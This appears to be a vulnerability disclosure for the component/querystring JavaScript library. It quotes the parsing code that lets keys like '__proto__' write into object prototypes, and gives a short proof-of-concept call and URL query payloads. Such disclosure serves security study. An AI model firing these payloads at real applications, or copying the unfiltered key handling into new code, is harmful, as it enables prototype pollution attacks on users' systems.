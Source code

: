 ## Component querystring

URL: https://github.com/component/querystring

### Vulnerable code fragment

https://github.com/component/querystring/blob/7334366bae9b0434d2aa3a6ac9a9039eb1d17144/index.js#L65-L67

```js
  var pattern = /(\w+)\[(\d+)\]/;

  ...

  var obj = {};
  var pairs = str.split('&');
  for (var i = 0; i < pairs.length; i++) {
    var parts = pairs[i].split('=');
    var key = decode(parts[0]);
    var m;

    if (m = pattern.exec(key)) {
      obj[m[1]] = obj[m[1]] || [];
      obj[m[1]][m[2]] = decode(parts[1]);
      continue;
    }
```

### PoC
```
var query = require('querystring');
query.parse('__proto__[123]=test');
```

```
?__proto__[NUMBER]=test
?__proto__[123]=test
```
